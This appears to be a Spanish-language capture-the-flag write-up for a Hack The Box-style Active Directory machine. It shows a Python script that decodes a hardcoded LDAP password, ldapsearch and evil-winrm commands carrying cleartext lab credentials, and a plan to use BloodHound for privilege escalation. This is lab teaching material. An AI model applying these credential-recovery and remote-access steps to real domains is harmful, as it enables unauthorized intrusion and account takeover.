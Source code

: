 ### Script en python
```python
import base64 
from itertools 
import cycle 

enc_password = base64.b64decode("0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E") 
key = b"armando" 
key2 = 223 

res = '' 
for e,k in zip(enc_password, cycle(key)): 
	res += chr(e ^ k ^ key2) 
print(res)
```

![[Pasted image 20240304235604.png]]El script imprime la contraseña descifrada y podemos proceder a conectarnos al servidor LDAP para recopilar información.
ahora tenemos credenciales para intentar conectarnos al servidor LDAP

```python
	sudo apt install ldap-utils
```

### ldapsearch
con esta inyección podemos ver que hay conexión
```python
ldapsearch -H ldap://support.htb -D ldap@support.htb -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "dc=support,dc=htb" "Administrator"
```
![[Pasted image 20240305002408.png]]
analizamos la peticion es un trabajo arduo pero podemos encrontrar lo que parece una contraseña "Ironside47pleasure40Watchful"

### evil-winrm
```python
evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb
```

![[Pasted image 20240305003154.png]]
###### perfecto tenemos conexión. recordamos que el escaneo de nmap nos revelo que esta maquina pertenece a un dominio de Active Directory 

![[Pasted image 20240305003618.png]]
podemos ver que de hecho la maquina pertenece al dominio dc.support.htb

podemos comprobar esto con el siguiente comando
![[Pasted image 20240305003935.png]]
###### El usuario de support parece ser miembro de un grupo no predeterminado llamado Cuentas de support compartidas , así como del grupo Usuarios autenticados . Usemos BloodHound Para identificar posibles rutas de ataque en este dominio que puedan ayudarnos a escalar privilegios.
